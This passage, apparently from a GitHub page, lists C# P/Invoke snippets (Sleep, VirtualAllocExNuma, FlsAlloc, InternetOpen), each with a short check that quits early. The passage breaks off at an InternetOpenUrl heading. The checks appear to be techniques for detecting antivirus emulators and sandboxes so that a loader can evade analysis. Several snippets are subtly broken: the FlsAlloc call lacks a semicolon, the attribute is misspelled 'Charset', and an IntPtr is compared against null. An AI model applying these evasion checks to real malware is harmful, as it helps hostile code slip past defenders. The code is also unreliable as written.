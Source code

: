 ```
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
```

```
Sleep(2000);
```

## [VirtualAllocExNuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma):

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
```

```
IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
if(mem == null)
{
 return;
}
```

## [FlsAlloc](https://docs.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc):

```
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr FlsAlloc(IntPtr callback);
```

```
IntPtr index = FlsAlloc(IntPtr.Zero)
if(index.ToInt32() < 0)
{
 return;
}
```

## [InternetOpen](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena):

```
[DllImport("wininet.dll", SetLastError = true, Charset = CharSet.Auto)]
static extern IntPtr InternetOpen(string lpszAgent, int dwAccessType, string lpszProxyName, string lpszProxyBypass, int dwFlags);
```

```
IntPtr hand = InternetOpen("appname", 0, null, null, 0);
```

## [InternetOpenUrl](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurla):
